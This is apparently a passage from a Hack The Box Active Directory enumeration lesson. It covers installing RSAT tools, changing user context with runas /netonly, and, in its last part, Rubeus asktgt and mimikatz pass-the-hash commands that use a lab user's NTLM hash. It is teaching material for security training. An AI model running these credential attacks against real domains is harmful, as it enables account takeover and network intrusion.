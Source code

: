 From here, we can choose to install all available tools using the following command:

#### PowerShell - Install All Available RSAT Tools

```powershell
PS C:\htb> Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability –Online

```

We can also install tools one at a time as needed.

#### PowerShell - Install an RSAT Tool

```powershell
PS C:\htb> Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0  –Online

```

Once installed, all of the tools will be available under `Administrative Tools` in the `Control Panel`.

![image](ljR4mjwjAFWk.png)

* * *

## Domain Context for Enumeration

Many tools are missing credential and context parameters and instead get those values directly from the current context. There are a few ways to alter a user's context in Windows if you have access to a password or a hash, such as:

Using " `runas /netonly`" to leverage the built-in [runas.exe](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) command line tool.

#### CMD - Runas User

```cmd-session
C:\htb> runas /netonly /user:htb.local\jackie.may powershell

```

Other tools that we will discuss in later modules, such as [Rubeus](https://github.com/GhostPack/Rubeus) and [mimikatz](https://github.com/gentilkiwi/mimikatz) can be passed cleartext credentials or an NTLM password hash.

#### CMD - Rubeus.exe Cleartext Credentials

```cmd-session
C:\htb> rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94

```

#### CMD - Mimikatz.exe Cleartext Credentials

```cmd-session
C:\htb> mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94

```
